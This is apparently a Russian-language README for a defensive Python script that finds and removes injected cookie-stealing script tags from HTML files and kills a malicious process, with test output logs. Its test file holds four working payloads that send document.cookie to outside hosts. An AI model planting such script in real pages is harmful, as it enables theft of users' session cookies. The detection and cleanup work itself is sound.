

# searcher_and_killer

# Искатель и убиватель

Скрипт написан часа за 4е в Windows.
1. Регулярка рабочая по логу ниже видно что она правильно возвращает и заменяет найденный паттерн с пустотой
2. Из-за нехватки времени функция searching_html только ищет html и по регулярке паттерны, но не сохраняет файл, для демонстрации работы хватит.
3. Функция киллер процессов работает в окружении Linux как часы.

Скрипт не нужно ставить на крон, достаточно просто запустить в фоне и отрегулировать время сна.

# Принцип работы искателя
Функция искателя ищет по Path, который задается в скрипте, находит все html и построчно по регулярке ищет совпадения.

Содержимое тестового файла:
```
<html>

<script>var i=new Image;i.src="http://asdasdlk.nl/k.php?go=87/?"+document.cookie;</script>

<html><script>var i=new Image;i.src="http://bvcnc445.co.uk/r.php?go=15/?"+document.cookie;</script><>

<script>var i=new Image;i.src="http://lajslidl.cn:444/m.php?go=11/?"+document.cookie;</script>

<script>var i=new Image;i.src="http://uzyxcyuizxct.xxx/l.php?go=32/?"+document.cookie;</script>


</html>

```
Вывод отработки искателя:
```
PS C:\Users\sergm\SK\searcher_and_killer> & C:/Users/sergm/AppData/Local/Programs/Python/Python311/python.exe c:/Users/sergm/SK/searcher_and_killer/main.py
test.html
----------------------------------
<html>


<html><>


</html>
test.html
----------------------------------
<html>


<html><>


</html>
test.html
----------------------------------
```

# Принцип работы убивателя
Для теста запущен тестовый файл f8b7adcecef6836a874765939c4d08d1.py:
```
while True:
    print("Fake process")
```
Лог процесса:
```
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Fake process
Killed
sm0ke@sm0ke_lab:~$
```
Лог отработки скрипта:
```
sm0ke@sm0ke_lab:~/searcher_and_killer$ sudo python3 main.py
Process Successfully terminated
test.html
----------------------------------
test.html
----------------------------------
^CTraceback (most recent call last):
  File "/home/sm0ke/searcher_and_killer/main.py", line 36, in <module>
    time.sleep(5)
KeyboardInterrupt
```

# Сама регулярка
<div id="regex" align="center">
 
<div>